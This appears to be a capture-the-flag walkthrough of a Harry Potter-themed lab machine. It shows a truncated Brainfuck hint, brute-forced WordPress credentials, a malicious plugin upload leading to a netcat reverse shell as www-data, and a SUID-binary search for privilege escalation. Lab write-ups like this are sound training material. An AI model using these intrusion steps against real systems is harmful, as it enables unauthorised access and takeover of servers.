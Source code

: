 > In /log i found the brain fuck cypher 
{: .prompt-tip }

```
+++++ +++++ [->++ +++++ +++<] >.<++ +[->+ ++<]> ++.<+ ++[-> —<] >—-..<++ ++[-> ++++< ]>+++ ++++. <++++ [->– –<]> .<+++ [->++ +<]>+ .<+++ +[->- —<]…

```
>just go on and try to get the secret hint. But here am not am now doing as black box.
{: .prompt-danger }

## Initial access
```
[!] Valid Combinations Found:
 | Username: draco, Password: slytherin

inside data
DracoMalfoy@gmail.com

```
![Screenshot From 2025-06-01 00-02-12](https://github.com/user-attachments/assets/d9b2b475-ff9e-4a77-965d-b4567290907a)

> Try to create a plugin from the target
{: .prompt-tip }

![Screenshot From 2025-06-01 00-14-55](https://github.com/user-attachments/assets/60c299a7-6e36-47b4-b059-30af3b23a871)

Upload payload
```
http://192.168.56.111/DiagonAlley/wp-content/uploads/
```
reverse shell
```
~/Desktop/redteam/hack/hongwan » nc -lnvp 1234                                                    cyberkid@cyberkiddle
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.111] 36354
Linux HogWarts 5.8.0-26-generic #27-Ubuntu SMP Wed Oct 21 22:29:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:37:32 up 57 min,  0 users,  load average: 0.05, 0.05, 0.40
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
![Screenshot From 2025-06-01 00-38-02](https://github.com/user-attachments/assets/b9023f8b-516e-4ec6-bfa0-0651088e1e07)


## Privilege esc
```
www-data@HogWarts:/home$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/snap/snapd/9721/usr/lib/snapd/snap-confine
/snap/core18/1885/bin/mount
/snap/core18/1885/bin/ping
/snap/core18/1885/bin/su
/snap/core18/1885/bin/umount
/snap/core18/1885/usr/bin/chfn
/snap/core18/1885/usr/bin/chsh
/snap/core18/1885/usr/bin/gpasswd
/snap/core18/1885/usr/bin/newgrp
/snap/core18/1885/usr/bin/passwd
/snap/core18/1885/usr/bin/sudo
/snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```